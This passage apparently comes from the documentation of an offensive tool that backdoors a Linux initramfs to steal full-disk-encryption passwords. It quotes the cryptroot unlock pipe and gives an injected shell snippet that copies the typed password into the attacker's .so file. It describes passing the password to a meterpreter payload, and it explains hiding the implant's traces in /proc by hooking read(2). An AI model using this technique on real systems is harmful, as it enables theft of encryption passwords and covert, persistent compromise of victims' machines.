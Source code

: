 `scripts/local-top/cryptroot:`

```
if [ ! -e "$NEWROOT" ]; then
        if ! crypttarget="$crypttarget" cryptsource="$cryptsource" \
             $cryptkeyscript "$cryptkey" | $cryptcreate --key-file=- ; then
                message "cryptsetup: cryptsetup failed, bad password or options?"
                continue
        fi
fi
```

The important part for us is where the output of `$cryptkeyscript` is piped into `$cryptcreate`. `$cryptkeyscript` is the password asker, and `$cryptcreate` is the disk mounter. This pipe makes it very easy for us to attack. We insert the following code where the pipe is to write out the password to the end of our `.so`:

`(read P; echo -ne \\\\\\\\x00$P >> /OUR.SO; echo -n $P)`

This will read the password into the variable `$P`, and both write it to the end of the `.so` and echo it out again. This code will be transparent for the purposes of `$cryptkeyscript` and `$cryptcreate`, but it will have the site effect of exfiltrating the password. We use `\\\\\\\\x00` to prepend a null byte (accounting for many levels of shell escaping) to the password. This makes it much easier for our `.so` to read the password back, as it just needs to read backwards from the end of itself until it sees a null byte.

To provide this password to the attacker, it is used as an environmental variable in the invocation of the payload. This means that the attacker can just use the meterpreter command `getenv PASSWORD` to retrieve the password.

##### Artefacts

Due to the way the `.so` is being loaded, there will be references to it in both `/proc/1/maps` and `/proc/1/environ`.

The `maps` file is a list of loaded modules. The following excerpt shows the contents of this file. Note the `(deleted)`, could potentially raise suspicion. However, unlike normal binaries, it is not possible to access the `.so` without directly carving it out of memory after it has been deleted.

```
7f9ee8a56000-7f9ee8a58000 r-xp 00000000 00:06 9264                       /dev/hda1 (deleted)
7f9ee8a58000-7f9ee8c57000 ---p 00002000 00:06 9264                       /dev/hda1 (deleted)
7f9ee8c57000-7f9ee8c58000 rw-p 00001000 00:06 9264                       /dev/hda1 (deleted)
```

The `environ` file is a `NULL` separated list of environmental variables at invocation. Because it is from invocation this means that any modifications we make at runtime (unsetting `LD_PRELOAD`) will not be reflected.

In both of these cases, becuase we can be hooked into any and all system processes, we could just hook the `read(2)` function and remove any references to ourselves.

##### Kali
Kali is sort of a special case. It has the chained cpio as mentioned below, but doesn't use `systemd` to boot. As such, the `DRACUT` OS rule has been generalized such that it extracts blindly, and then the second OS detection catches Kali.
